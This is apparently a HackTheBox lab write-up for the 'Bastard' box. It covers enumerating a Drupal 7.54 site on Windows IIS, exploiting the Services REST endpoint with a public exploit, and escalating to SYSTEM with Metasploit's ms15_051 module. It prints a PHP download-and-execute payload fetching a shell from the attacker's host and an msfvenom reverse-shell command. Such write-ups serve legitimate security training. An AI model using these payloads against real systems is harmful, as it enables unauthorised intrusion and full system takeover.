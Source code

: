 ```yaml
---
layout: post
title:  "HackTheBox - Bastard"
date:   2017-04-18 21:50:00 +0100
categories: hackthebox
image:
  feature: bastard.jpg
  credit:
  creditlink:
---
```

This post describes multiple attacks upon the Bastard box on [hackthebox.eu](http://hackthebox.eu).  I've found myself updating and transferring my old blog in some of the dead hours of today and Piers Morgan somehow made it on the Netflix special I was watching with the family.  Couldn't resist a dig!

Introduction
==========
Bastard is very much a box about understanding your environment much in the same vein as Optimum.  In fact I would say this box is a good follow up to Optimum as it takes a lot of the lessons from that box but makes it a little bit harder.

Enumeration
==========
Nmap
--------
```bash
PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
|_http-generator: Drupal 7 (http://drupal.org)
| http-methods: 
|_  Potentially risky methods: TRACE
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
```

Instantly we know two things about this box.  It's running Drupal and the host is windows.  This does affect getting a shell slightly, as I'd been so used to returning a shell on Linux LAMP stack boxes that I was sending incorrect shells most of the time.  Despite the name however, this isn't as bad as it sounds.  You'll take a lot of lessons from this device that will go into exploiting harder boxes.

So, looking around we quickly realise that this version of Drupal is 7.54.  This is fairly recent but not ridiculously so.  Checking exploit-db also only yields one applicable exploit.  [](https://www.exploit-db.com/exploits/41564/)

I won't go in depth on how this exploit works, but the cliff-notes are that it attacks a REST endpoint created by the services extension.  To exploit we just need to find out the name of the REST endpoint (security through obscurity).  Honestly, exploiting this is simply a case of reading the exploit and the attached write-up. 

So to find the rest-endpoint just fire up your favourite web directory scanner and let 'er rip.  This one took a while, but in the end we found it, it's just /rest.  So change the endpoint to /rest and then the payload is uploaded to the server.  You can either replace it with your own in the exploit file, giving you an instant shell, or you can use the default one to get a shell.

Exploitation
-------------

So now we have the rest endpoint location, we just need to run it on the directory we found.  This uploads a php backdoor which will execute any php we send in a post request.  Adjusting the payload is quite finnicky considering what we're working with is a windows server, so in cases like that I use the below:
```php
file_put_contents("meta.exe", fopen("http://10.10.13.182/metasploit_https.exe", 'r'));
shell_exec('meta.exe');
```
This will download an executable shell from a http web server and then execute it.  To generate a shell msfvenom is as always our go to:
```bash
msfvenom -p windows/meterpreter/reverse_https -f exe LHOST=10.10.13.182 LPORT=4443 > metasploit_https.exe
```
Set up a listener and we're returned a shell.


Privilege Escalation
===============

For this, we run the metasploit exploit suggester and come across a number of candidate metasploit exploits.  The below will show exploiting ms15_051_client_copy_image:
```bash
msf exploit(ms15_051_client_copy_image) > show options

Module options (exploit/windows/local/ms15_051_client_copy_image):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  8                yes       The session to run this module on.


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.117.134  yes       The listen address
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Windows x64


msf exploit(ms15_051_client_copy_image) > set SESSION 9
SESSION => 9
msf exploit(ms15_051_client_copy_image) > set lhost 10.10.13.182
lhost => 10.10.13.182
msf exploit(ms15_051_client_copy_image) > exploit

[*] Started reverse TCP handler on 10.10.13.182:4444 
[*] Launching notepad to host the exploit...
[+] Process 1956 launched.
[*] Reflectively injecting the exploit DLL into 1956...
[*] Injecting exploit into 1956...
[*] Exploit injected. Injecting payload into 1956...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Command shell session 10 opened (10.10.13.182:4444 -> 10.10.10.9:50058) at 2017-06-20 09:03:20 +0100

Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\inetpub\drupal-7.54>whoami
whoami
nt authority\system
```
We have System!
